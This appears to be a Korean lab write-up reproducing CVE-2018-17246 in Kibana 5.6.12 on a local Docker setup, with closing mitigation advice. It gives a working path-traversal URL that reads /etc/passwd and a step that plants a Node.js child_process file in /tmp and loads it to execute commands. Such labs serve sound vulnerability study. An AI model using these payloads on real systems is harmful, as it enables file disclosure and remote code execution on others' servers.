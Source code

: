# CVE-2018-17246

> [심수용 (@protruser)](https://github.com/protruser)

<br/>

### 요약

-   Kibana는 Elasticsearch에 저장된 데이터를 시각적으로 분석하고 대시보드로 보여주는 오픈소스 도구
-   접속이 대부분 웹 UI를 통해 이루어지기 떄문에 입력값 검증이 이루어지지 않을 경우 취약점이 발생할 수 있음
-   Kibana Console Plugin의 apis 파라미터 취약으로 path traversal을 통해 로컬 파일을 조회할 수 있음

<br/>
** 참고 자료 (References): **

-   <https://nvd.nist.gov/vuln/detail/cve-2018-17246>
-   <https://hadoop.apache.org/docs/current/hadoop-yarn/hadoop-yarn-site/YARN.html>
-   <https://github.com/vulhub/vulhub/tree/master/kibana/CVE-2018-17246>

<br/>

### 환경 구성 및 실행

```bash
git clone https://github.com/protruser/kr-vulhub.git
```

깃허브 레포지토리를 clone합니다.

```bash
cd /Kibana/CVE-2018-17246
docker-compose up -d
```

docker-compose.yml 파일이 있는 디렉토리로 경로를 이동하고, yml 파일을 실행합니다. <br/>
해당 버전에서는 Kibana 5.6.12와 Elasticsearch 5.6.16를 사용합니다.

<br/>

<img src="img1.png">
<img src="img2.png">

localhost:5601로 접속을 합니다.

<br/>

### 과정

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../etc/passwd
```

<img src="img3.png">
<img src="img4.png">

해당 url로 접속할 경우, 서버가 Internal Server Error(500) 에러를 출력하지만, 웹 로그에 etc/passwd의 정보가 출력됩니다.

-   취약한 파라미터: apis

<br/>

```bash
docker compose exec kibana bash
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

<img src="img5.png">

/tmp/ 경로에 웹 쉘을 업로드합니다. <br/>
Node.js의 child_process 모듈을 불러오고, id 명령의 실행 결과를 반환합니다.

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../tmp/vulhub.js
```

웹 쉘이 업로드 된 경로로 접속합니다.

<br/>

### 결과

<img src="img6.png">

<br/>

### 정리

path traversal 취약점을 통해 Javascript 파일을 실행시킬 수 있는 취약점

-   사용자가 URL 또는 요청 본문에 제공한 경로를 서버 내부 경로에 그대로 사용하지 않도록 제한해야 합니다.
-   경로를 정규화하여, 외부에서의 디렉토리 접근을 막아야 합니다.
-   서버 측에 파일 접근 인터페이스를 제거해야 합니다.
